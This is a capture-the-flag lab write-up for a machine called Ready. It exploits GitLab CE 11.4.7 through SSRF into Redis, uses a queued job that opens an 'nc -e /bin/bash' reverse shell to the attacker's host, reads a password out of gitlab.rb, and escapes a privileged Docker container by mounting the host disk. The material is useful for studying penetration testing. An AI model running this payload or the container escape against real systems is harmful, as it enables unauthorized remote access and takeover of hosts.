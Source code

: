 # Ready
IP : 10.10.10.220

## Nmap
Command : 
nmap -A -oN ready.txt 10.10.10.220
Port: 
22/tp 	ssh
5080/tcp http nginx 1.14.2
OS: 
unknown.

## web application 
Version : 
GitLab Commuity Edition v 11.4.7
Vulnerability to RCE via SSRF
https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/

Using the things I learned from "liveoverflow" I learned about crafting a package which can be sent using burb, remeber to create a netcat listener 
````
nc -lvnp 1234
````

````Bash
git://\[0:0:0:0:0:ffff:127.0.0.1\]:6379/ 
 multi
 sadd resque:gitlab:queues system\_hook\_push
 
 lpush resque:gitlab:queue:system\_hook\_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":\[\\"class\_eval\\",\\"open(\\'|nc -e /bin/bash 10.10.16.X 1234\\').read\\"\],\\"retry\\":3,\\"queue\\":\\"system\_hook\_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created\_at\\":1513714403.8122594,\\"enqueued\_at\\":1513714403.8129568}" 
 
 exec

 exec 
/ssrf.git
````

Get user flag in /home/dude 

## Root
Emulating we see a backup folder, here we find password to smtp
````bash
cat gitlab.rb | grep password 
````
wW59U!ZKMbG9+*#h
remember to upgrade the shell

````Python 
python3 -c "import pty; pty.spawn('/bin/bash')"
````

## Get root

````bash
su root 
```` 
where the password is one you found in gitlab.rb 

But nothing to be found inside root dir. look like we are in a container. 
by going to /proc/1/cgroup 
We that it a docker container we are inside. 

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1?gi=c1a107350323

privileged container check 
````bash
ip link add dummy0 type dummy
````
And it a success meaning we got a priv container

let try escape the container.
````Bash
mkdir /tmp/test
mount /dev/sda2 /tmp/test
cat /tmp/test/root/root.txt
````

And we got root.